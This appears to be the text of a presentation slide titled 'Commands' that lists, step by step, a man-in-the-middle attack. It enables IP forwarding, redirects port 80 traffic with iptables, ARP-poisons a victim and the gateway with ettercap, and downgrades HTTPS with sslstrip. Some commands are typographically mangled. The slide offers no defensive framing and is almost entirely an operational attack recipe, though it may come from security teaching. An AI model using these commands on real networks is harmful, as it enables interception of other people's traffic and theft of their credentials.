

# Commands
echo 1 > /proc/sys/net/ipv4/ip_forward – enable ip forwarding
Iptables –t nat -A PREROUTING –p tcp --destination-port 80 -j REDIRECT- -to-port 10000
route –n – find your gateway
ettercap –Tq –M arp:remote –i eth0 –S /victimsip// /gatewayip//
sslstrip